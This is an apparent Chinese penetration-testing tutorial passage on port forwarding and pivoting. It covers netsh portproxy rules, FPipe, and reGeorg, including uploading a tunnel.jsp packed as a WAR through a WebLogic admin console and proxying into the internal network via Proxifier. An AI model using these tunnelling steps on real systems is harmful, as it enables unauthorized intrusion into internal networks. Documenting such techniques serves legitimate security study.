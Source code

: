 ```text
netsh interface portproxy set v4tov4 listenaddress=127.0.0.1 listenport=3333 connectaddress=101.198.180.144 connectport=7001
```

访问3333端口

![](https://p408.ssl.qhimgs4.com/t017117a625efbcfa98.png)

查看现有规则

```text
netsh interface portproxy show all
```

删除转发规则

```text
netsh interface portproxy delete v4tov4 listenport=3333
```

**使用FPipe进行端口转发**

命令

```text
FPipe.exe -l 5555 -r 7001 101.198.180.144 -v
```

![](https://p408.ssl.qhimgs4.com/t01176c04cc91c8053b.png)

**使用reGeorg进行端口转发**

将tunnel.jsp压缩，并更改后缀名为war，通过weblogic后台上传至服务器

![](https://p408.ssl.qhimgs4.com/t01c554efa2fc7661ca.png)

本地运行reGeorgSocksProxy.py

![](https://p408.ssl.qhimgs4.com/t01d873b331bcd1dddc.png)

物理机运行代理

python reGeorgSocksProxy.py -p 2333 -u [http://101.198.180.144:7001/tunnel/tunnel.jsp](http://101.198.180.144:7001/tunnel/tunnel.jsp)

![](https://p408.ssl.qhimgs4.com/t01b05b1a942af01205.png)

本地使用Proxifier，配置代理服务器

![](https://p408.ssl.qhimgs4.com/t016445f234fd780fe4.png)

添加代理规则，将python.exe排除在外

![](https://p408.ssl.qhimgs4.com/t01486855a8c67128a3.png)

本地直接访问内网地址

![](https://p408.ssl.qhimgs4.com/t010c61e9ede18f843f.png)
